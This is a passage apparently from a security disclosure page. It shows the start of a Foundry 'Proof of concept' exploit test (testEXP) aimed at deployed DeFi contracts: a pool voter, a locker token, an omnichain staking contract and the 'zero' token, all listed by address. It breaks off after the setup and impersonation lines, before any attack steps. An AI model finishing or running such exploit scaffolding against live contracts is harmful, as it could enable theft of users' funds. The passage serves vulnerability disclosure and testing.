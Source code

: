 
## Proof of concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "./interface.sol";
/*
poolVoter 0x3818eAb6Ca8Bf427222bfACFA706c514145F4104
lockerToken 0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd
omnichainStaking 0x9eb52339B52e71B1EFD5537947e75D23b3a7719B
zero 0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25
vestedZeroNFT 0x20BBE62B175134D21b10C157498b663F048672bA
*/

IERC20 constant zero = IERC20(0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25);
isakte constant stake = isakte(0x9eb52339B52e71B1EFD5537947e75D23b3a7719B);
PoolVoter constant poolVoter = PoolVoter(0x3818eAb6Ca8Bf427222bfACFA706c514145F4104);
iLockerToken constant lockerToken = iLockerToken(0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd);

interface iLockerToken {
    function underlying() external returns (address);
    function createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _stakeNFT
    ) external returns (uint256);
    function safeTransferFrom(address,address,uint256,bytes memory) external;
}

interface isakte {
    function unstakeToken(uint256 tokenId) external;
}

interface PoolVoter {
    function pools() external returns (address[] memory);
    function owner() external returns (address);
    function length() external returns (uint256);
    function weights(address) external returns (uint256);
    function registerGauge(
        address _asset,
        address _gauge
    ) external;
    function vote(
        address[] calldata _poolVote,
        uint256[] calldata _weights
    ) external;
}


contract Main is Test {
    function setUp() public {
        vm.createSelectFork("http://127.0.0.1:8545");


    }

    function testEXP() public {

        address owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
        deal(address(stake), address(owner), 1 ether);
        vm.startPrank(owner);
```